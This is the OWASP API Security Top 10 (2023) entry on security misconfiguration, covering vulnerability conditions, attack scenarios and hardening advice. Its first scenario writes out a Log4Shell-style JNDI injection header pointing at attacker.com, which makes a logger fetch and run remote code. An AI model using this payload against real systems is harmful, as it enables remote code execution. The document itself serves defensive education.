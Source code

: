 API7:2023 Security Misconfiguration
===================================

## Is the API Vulnerable?

The API might be vulnerable if:

* Appropriate security hardening is missing across any part of the API stack,
  or if there are improperly configured permissions on cloud services
* The latest security patches are missing, or the systems are out of date
* Unnecessary features are enabled (e.g. HTTP verbs, logging features)
* There are discrepancies in the way incoming requests are processed by servers
  in the HTTP server chain
* Transport Layer Security (TLS) is missing
* Security or cache control directives are not sent to clients
* A Cross-Origin Resource Sharing (CORS) policy is missing or improperly set
* Error messages include stack traces, or expose other sensitive information

## Example Attack Scenarios

### Scenario #1

An API back-end server maintains an access log written by a popular third-party
open-source logging utility with support for placeholder expansion and JNDI
(Java Naming and Directory Interface) lookups, both enabled by default. For
each request, a new entry is written to the log file with the following
pattern: `<method> <api_version>/<path> - <status_code>`.

A bad actor issues the following API request, which gets written to the access
log file:

```
GET /health
X-Api-Version: ${jndi:ldap://attacker.com/Malicious.class}
```

Due to the insecure default configuration of the logging utility and a
permissive network outbound policy, in order to write the corresponding entry
to the access log, while expanding the value in the `X-Api-Version` request
header, the logging utility will pull and execute the `Malicious.class` object
from the attacker's remote controlled server.

### Scenario #2

A social network website offers a "Direct Message" feature that allows users to
keep private conversations. To retrieve new messages for a specific
conversation, the website issues the following API request (user interaction is
not required):

```
GET /dm/user_updates.json?conversation_id=1234567&cursor=GRlFp7LCUAAAA
```

Because the API response does not include the Cache-Control HTTP response
header, private conversations end-up cached by the web browser, allowing
malicious actors to retrieve them from the browser cache files in the
filesystem.

## How To Prevent

The API life cycle should include

* A repeatable hardening process leading to fast and easy deployment of a
  properly locked down environment
* A task to review and update configurations across the entire API stack. The
  review should include: orchestration files, API components, and cloud
  services (e.g. S3 bucket permissions)
* An automated process to continuously assess the effectiveness of the
  configuration and settings in all environments

Furthermore:

* Ensure that all API communications from the client to the API server and any
  downstream/upstream components happen over an encrypted communication channel
  (TLS), regardless of whether it is an internal or public-facing API.
* Be specific about which HTTP verbs each API can be accessed by: all other
  HTTP verbs should be disabled (e.g. HEAD).
* APIs expecting to be accessed from browser-based clients (e.g., WebApp
  front-end) should, at least:
  * implement a proper Cross-Origin Resource Sharing (CORS) policy
  * include applicable Security Headers
* Restrict incoming content types/data formats to those that meet the business/
  functional requirements.
* Implement a proper Cross-Origin Resource Sharing (CORS) policy on APIs
  expected to be accessed from browser-based clients (e.g. web app front-ends).
* Ensure all servers in the HTTP server chain (e.g. load balancers, reverse
  and forward proxies, and back-end servers) process incoming requests in a
  uniform manner to avoid desync issues.
* Where applicable, define and enforce all API response payload schemas,
  including error responses, to prevent exception traces and other valuable
  information from being sent back to attackers.

## References

### OWASP

* [OWASP Secure Headers Project][1]
* [Configuration and Deployment Management Testing - Web Security Testing
  Guide][2]
* [Testing for Error Handling - Web Security Testing Guide][3]
* [Testing for Cross Site Request Forgery - Web Security Testing Guide][4]

### External

* [CWE-2: Environmental Security Flaws][5]
* [CWE-16: Configuration][6]
* [CWE-209: Generation of Error Message Containing Sensitive Information][7]
* [CWE-319: Cleartext Transmission of Sensitive Information][8]
* [CWE-388: Error Handling][9]
* [CWE-444: Inconsistent Interpretation of HTTP Requests ('HTTP Request/Response
  Smuggling')][10]
* [CWE-942: Permissive Cross-domain Policy with Untrusted Domains][11]
* [Guide to General Server Security][12], NIST
* [Let's Encrypt: a free, automated, and open Certificate Authority][13]

[1]: https://owasp.org/www-project-secure-headers/
[2]: https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/02-Configuration_and_Deployment_Management_Testing/README
[3]: https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/08-Testing_for_Error_Handling/README
[4]: https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/06-Session_Management_Testing/05-Testing_for_Cross_Site_Request_Forgery
[5]: https://cwe.mitre.org/data/definitions/2.html
[6]: https://cwe.mitre.org/data/definitions/16.html
[7]: https://cwe.mitre.org/data/definitions/209.html
[8]: https://cwe.mitre.org/data/definitions/319.html
[9]: https://cwe.mitre.org/data/definitions/388.html
[10]: https://cwe.mitre.org/data/definitions/444.html
[11]: https://cwe.mitre.org/data/definitions/942.html
[12]: https://csrc.nist.gov/publications/detail/sp/800-123/final
[13]: https://letsencrypt.org/
